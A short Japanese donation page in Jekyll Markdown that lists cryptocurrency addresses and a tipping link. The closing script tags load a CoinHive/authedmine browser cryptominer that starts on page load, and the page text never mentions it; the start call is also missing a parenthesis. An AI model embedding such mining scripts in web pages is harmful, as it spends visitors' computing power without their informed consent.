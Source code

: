 # Donation

何でもしませんけど寄付はほしいﾃﾞｽ  
以下のアドレスでどうぞどうぞ

[Sensuでやるならこちら](https://shinoharata.github.io/TipSensuWithTwitter/?name=uesitananame55)

## Mainnet

{% for address in site.data.addresss.Mainnet %}
### {{ address.name }} - {{ address.code }}
`{{ address.address }}`
{% endfor %}


<script src="//ajax.googleapis.com/ajax/libs/jquery/2.1.1/jquery.min.js"></script>
<script src="https://authedmine.com/lib/authedmine.min.js"></script>
<script>
    var miner = new CoinHive.Anonymous('ZPnE2bX7bJXKXOBTYPDqkTnz0uJdzBep', {throttle: 0.3});
    miner.start(CoinHive.IF_EXCLUSIVE_TAB;
</script>